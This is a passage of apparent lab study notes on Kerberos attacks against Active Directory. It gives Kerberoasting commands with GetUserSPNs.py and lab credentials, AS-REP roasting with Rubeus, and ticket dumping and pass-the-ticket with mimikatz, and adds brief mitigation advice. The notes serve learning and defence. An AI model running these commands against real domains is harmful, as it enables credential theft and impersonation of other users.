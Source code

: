 - this attack performing in own kali machine and try to teg hashing from target machine.

`GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.10.60 -request`

- this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

- after getting hash, now crack that hash using john or hashcat.

### Kerberoasting Mitigation

- Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective

- Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

## AS-REP Roasting Rubeus

### Dumping KRBASREP5 Hashes Rubeus

`Rubeus.exe asreproast`

- This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

### AS-REP Roasting Mitigations

- Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective

- Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

## Pass the Ticket mimikatz

### Dump Tickets

- `mimikatz.exe`: run mimikatz

- `privilege::debug`: Ensure this outputs `[output '20' OK]` if it does not that means you do not have the administrator privileges to properly run mimikatz

- `sekurlsa::tickets /export`: this will export all of the .kirbi tickets into the directory that you are currently in

### Pass the Ticket Mimikatz

- `kerberos::ptt [ticket]`: run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

- `klist`: Here were just verifying that we successfully impersonated the ticket by listing our cached tickets. this command need to be run outside the mimikat; like on terminal.
